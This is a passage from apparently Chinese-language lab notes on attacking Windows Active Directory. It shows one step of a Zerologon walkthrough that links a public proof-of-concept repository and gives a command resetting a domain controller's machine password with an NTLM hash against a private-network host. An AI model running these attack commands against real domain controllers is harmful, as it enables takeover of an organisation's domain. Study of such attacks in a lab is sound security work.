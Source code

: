     ![image-20240722195832557](Kerberos/image-20240722195832557.png)
    该 PoC 的 issus 中也有人反应这个问题，但是没有得到解决。

8. 只能改用另外的大佬的 PoC：

    > https://github.com/risksense/zerologon

    ```bash
    python3 reinstall_original_pw.py Winserver12-DC 192.168.31.4 aad3b435b51404eeaad3b435b51404ee:71f8b21d02adb6f1e2166ebbbab2e578
    ```

    ![image-20240722200406708](Kerberos/image-20240722200406708.png)

